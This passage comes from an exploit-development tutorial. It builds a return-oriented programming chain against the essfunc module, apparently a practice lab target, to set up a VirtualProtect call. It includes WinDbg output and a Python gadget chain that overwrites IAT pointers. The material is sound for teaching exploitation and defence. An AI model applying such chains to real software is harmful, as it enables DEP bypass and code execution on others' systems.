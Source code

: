 The next value on top of the stack is the pointer to the `VirtualProtect` skeleton, the pointer which is held by `EAX`. After stepping through the second `pop` instruction, we can verify that `EBX` now holds this address:

```text
0:003> r @ebx
ebx=00ecf228
```

Finally we get to the `ret` instruction which will instruct the instruction pointer to return to the address which is on top of the stack:

```text
essfunc!EssentialFunc3+0x9:
625014e3 c3              ret
0:003> r @ebx

ebx=00ecf228
0:003> dds esp L1
00ecfa44  62501d08
```

As shown above, the program will proceed to the address of the subsequent gadget in the sequence, maintaining the flow of the chain!

#### Back to overriding the first placeholder

Having set `EBX` to point to the beginning of the `VirtualProtect` skeleton and adjusted the pointers to reference the addresses of gadgets that emulate specific behaviors, the next step is to replace the first `DWORD` in the skeleton with the `VirtualProtect` address. As discussed earlier, the address of `VirtualProtect` was obtained at runtime by accessing the `IAT`.

Now, let's refocus on the subsequent gadget which serves our purpose:

```text
mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC] 
```

For this to work, `EAX` should contain the address of the `VirtualProtect` stub. To fit this requirement, we'll need to restructure our gadget chain. One of the recurrent aspects of crafting `ROP` chains is this need to occasionally revisit and adjust the sequence to ensure functionality. Rarely do you build a `ROP` chain in a linear fashion from beginning to end; instead, there's often a need to skip around and return to various segments: 

As such, our gadget chain will now be the following:

```python
rop = b''
# 0. preserve location of VirtualProtect skeleton in ECX
rop += struct.pack('<L', 0x625021ff) # nop ; mov ecx, eax ; mov eax, ecx ; pop ebx ; pop esi ; ret
rop += struct.pack('<L', 0x41414141) # junk for ebx
rop += struct.pack('<L', 0x41414141) # junk for esi

# 1. override pointers with gadgets
# override 0x625070DC to hold address of pop r32 ; ret gadget
rop += struct.pack('<L', 0x625014fc) # pop ebx ; ret
rop += struct.pack('<L', 0x625070DC) # ebx will be 0x625070DC 
rop += struct.pack('<L', 0x625014d5) # pop eax ; ret
rop += struct.pack('<L', 0x625012f7) # pop ebp; ret
rop += struct.pack('<L', 0x62501ea9) # mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC]

# override 0x62507124 to hold address of pop r32 ; pop ebx ; ret gadget
rop += struct.pack('<L', 0x625014fc) # pop ebx ; ret
rop += struct.pack('<L', 0x62507124) # ebx will be 0x62507124 
rop += struct.pack('<L', 0x625014d5) # pop eax ; ret
rop += struct.pack('<L', 0x625014e1) # address of pop ebx ; pop ebx ; ret
# EAX now holds address of pop ebx ; pop ebx ; ret
```